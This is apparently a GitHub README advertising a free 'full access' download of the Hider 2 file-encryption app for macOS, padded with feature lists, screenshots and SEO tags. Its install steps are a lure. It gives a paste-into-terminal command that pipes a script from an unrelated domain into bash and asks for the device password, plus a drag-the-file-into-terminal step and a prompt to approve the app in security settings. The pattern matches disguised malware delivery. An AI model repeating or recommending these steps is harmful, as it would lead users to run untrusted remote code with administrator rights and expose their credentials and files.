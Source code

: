 <p align="center">
  <img src="https://i.ibb.co/zHhYX5jp/1551848109-hider-2.png" alt="Hider 2 macOS Banner" />
</p>

<h1 align="center">Hider 2 for macOS</h1>

<p align="center">
  🔐 Securely hide and encrypt files or folders in one click — clean, fast, and built for privacy on macOS.  
  <br><br>
  ✅ Native Apple Silicon support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/146" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20HIDER%202%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Hider 2 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/LXLnyhvF/1670153346-1.jpg" alt="Hider 2 Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Hider 2?

**Hider 2** for macOS is a minimal yet powerful utility that allows you to **instantly hide and encrypt files or folders** on your Mac. It creates a secure vault and gives you full control over your sensitive data — all with one click.

Unlike basic hiding tools, Hider 2 **encrypts everything with AES-256**, runs fully offline, and is optimized for both **Intel** and **Apple Silicon** Macs. Whether you're hiding client files, personal documents, or private folders, it's all safely stored in a password-protected interface.

The app runs smoothly on **macOS Sonoma**, **Ventura**, and **Monterey**, and includes menu bar shortcuts, auto-lock, and clean integration into your workspace.

---

## ✅ Why Choose Hider 2?

- 🔐 **AES-256 Encryption for All Files**  
- 📁 **Instant Hide/Unhide Toggle**  
- 🚫 **No Background Services**  
- 🧠 **Auto-Lock After Inactivity**  
- ⚙️ **Minimal Menu Bar UI**  
- 💾 **Offline, Local-Only Security**  
- 🖥️ **Apple Silicon & Intel Native**  
- 🔏 **Password-Protected Vaults**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/XZvqwYxz/1670153346-3.jpg" alt="Hider 2 Vault Interface Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/YFc78s8n/1670153346-2.jpg" alt="Hider 2 File Encryption Toggle Screenshot" />
</p>

---

## 🚀 Key Features

- One-click file hiding and encryption  
- AES-256 secure vault system  
- Menu bar quick access  
- Auto-lock timeout  
- Clean UI with dark mode  
- Apple Silicon (M1/M2/M3) native  
- No internet or syncing  
- 100% offline privacy tool  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Hider 2 under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/SecurityMode-Local%20AES%20Vault-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Menubar%20LockUI-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Hider Pro – Secure What Matters

Thanks for choosing **Hider 2 for macOS**.  
Lock your files. Keep your privacy. Stay in control.

---

## 🧭 Usage Context

This macOS tool is intended for personal, offline file protection and sensitive folder encryption.  
No cloud sync or background monitoring is involved.

All encryption remains local.  
Avoid use in corporate-managed or remote-logged environments.

This project is unaffiliated with any external platforms.

---

## 🔍 Tags

```text
hider 2 for mac download, hider 2 secure file locker macos, aes file encryption mac hider 2, download hider 2 full version mac, hider 2 privacy app for macbook, hider 2 apple silicon encryption tool, hide folders mac hider 2 vault, hider 2 offline vault macos, secure file manager mac with hider 2, hider 2 sonoma ventura compatibility, best mac app to hide files hider2, hider 2 mac menu bar lock utility, file encryption software mac hider2, download hider 2 password vault mac, hider 2 encrypted storage app mac
